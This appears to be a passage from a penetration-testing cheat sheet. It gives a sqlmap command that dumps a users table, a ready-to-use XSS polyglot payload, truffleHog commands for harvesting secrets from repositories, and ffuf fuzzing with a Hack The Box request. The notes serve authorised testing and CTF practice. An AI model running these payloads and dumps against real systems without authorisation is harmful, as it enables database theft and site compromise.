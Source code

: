 ### extract data from table
```shell
sqlmap -r req.txt --second-req=secreq.txt --threads 5 --tamper=space2comment -T users --dump
```
`-T`: table name

# XSS
## Polyglot
The following script includes multiple payloads to improve the test efficiency.
```shell
jaVasCript:/*-/*`/*\`/*'/*"/**/(/* */oNcliCk=alert() )//%0D%0A%0d%0a//</stYle/</titLe/</teXtarEa/</scRipt/--!>\x3csVg/<sVg/oNloAd=alert()//>\x3e
```
https://github.com/0xsobky/HackVault/wiki/Unleashing-an-Ultimate-XSS-Polyglot

# Aggregating Sensitive Information
## truffleHog
This tool gets high entropy strings (e.g. Password, APIKey, etc...).
https://github.com/trufflesecurity/trufflehog
### Scan GitHub
Docker
``` shell
docker run --rm -it -v "$PWD:/pwd" trufflesecurity/trufflehog:latest github --repo <Repository URL></Repository>
```

# Fuzz
## ffuf
### Basic usage
```
ffuf -request <request file> -request-proto http -w <wordlist (e.g. SecList)>
```
### Special Character Fuzz
```
ffuf -request test_spchars.req -request-proto http -w /usr/share/seclists/Fuzzing/special-chars.txt
```
test_spchars.req is defined as follows [Hack the box: Busqueda](https://app.hackthebox.com/machines/Busqueda):
```
POST /search HTTP/1.1
Host: searcher.htb
Content-Length: 25
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://searcher.htb
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/123.0.6312.122 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://searcher.htb/
Accept-Encoding: gzip, deflate, br
Accept-Language: en-GB,en-US;q=0.9,en;q=0.8
Connection: close

engine=Google&query=abcdeFUZZ
```